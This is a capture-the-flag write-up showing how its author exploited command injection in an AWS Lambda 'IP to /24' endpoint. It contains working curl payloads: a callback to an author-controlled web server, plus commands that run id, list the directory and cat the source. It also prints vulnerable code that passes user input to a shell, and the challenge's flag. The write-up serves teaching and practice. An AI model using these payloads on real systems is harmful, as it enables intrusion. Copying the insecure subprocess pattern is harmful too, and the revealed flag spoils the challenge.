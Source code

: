# Solution - by bashNinja

Testing the expected functionality:

```
$ curl -G --data-urlencode "server=192.168.0.1" "https://n234dtjo39.execute-api.us-west-2.amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b'192.168.0.0/24\\n'"
```

So there's some sort of injection here. I smashed at SQL injection for a while. Even ran SQLMap and got 0.

Then I played with command injection.

This command changed the output to nothing! That's great:

```
$ curl -G --data-urlencode "server=;which curl;" "https://n234dtjo39.execute-api.us-west-2
.amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b''"m
```

I then attempted to see if it was actually running the commands, so I had it hit a webserver I controlled and checked if anything hit it.

```
$ curl -G --data-urlencode "server=;curl thebash.ninja;" "https://n234dtjo39.execut
e-api.us-west-2.amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b''"m
```

Same response as before, but my webserver said it got a hit from curl!! That meant it was running the commands, but not showing them. So I played with the output until I figured out what was going on. It was filtering the OUTPUT.

This produced results:

```
$ curl -G --data-urlencode "server=;id;192.168.0.1" "https://n234dtjo39.execute-api.us-west-2.amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b'\\nuid=994(sbx_user1051) gid=991 groups=991\\n'"
```

Sweet. Command injection! What now... Dig around? Usually we don't have to dig around much, so we'll stick in the current directory.

```
$ curl -G --data-urlencode "server=;ls;1.1.1.1" "https://n234dtjo39.execute-api.us-west-2.
amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b'\\nlambda_function.py\\n'"

$ curl -G --data-urlencode "server=;cat *;1.1.1.1" "https://n234dtjo39.execute-api.us-west
-2.amazonaws.com/default/myFun2020_002"
"Convert an IP address to a /24 Network Block!b'\\nimport json\\n\\n# FLAG / KEY: wheelsAMOUNThill\\n\\nimport subprocess\\n\\ndef lambda_handler(event, context):\\n    # @TweekFawkes\\n    sReturn = \\'Convert an IP address to a /24 Network Block!\\'\\n    #\\n    headers = event[\\'headers\\']\\n    #\\n    if \\'queryStringParameters\\' in event:\\n        dQueryStringParameters = event[\\'queryStringParameters\\']\\n        if \\'server\\' in dQueryStringParameters:\\n            sServerGetParm = str(dQueryStringParameters[\\'server\\'])\\n            result = subprocess.run(\\'echo \\' + sServerGetParm + \\'\\' + \" | sed \\'s:[^.]*$:0/24:\\'\", stdout=subprocess.PIPE, shell=True)\\n            sReturn = sReturn + str(result.stdout)\\n    #\\n    return {\\n        \\'statusCode\\': 200,\\n        \\'body\\': json.dumps(sReturn)\\n    }\\n'"
```

Bam, flag.

# Real Life Application

This is 100% possible in real life. Poor coding will produce these kinds of results. To protect against this, send your programmers to "secure coding" classes and put your application through _OPEN_ SOURCE CODE Pentests. They'll find this kind of stuff if your programmers missed it.

# Flag

wheelsAMOUNThill
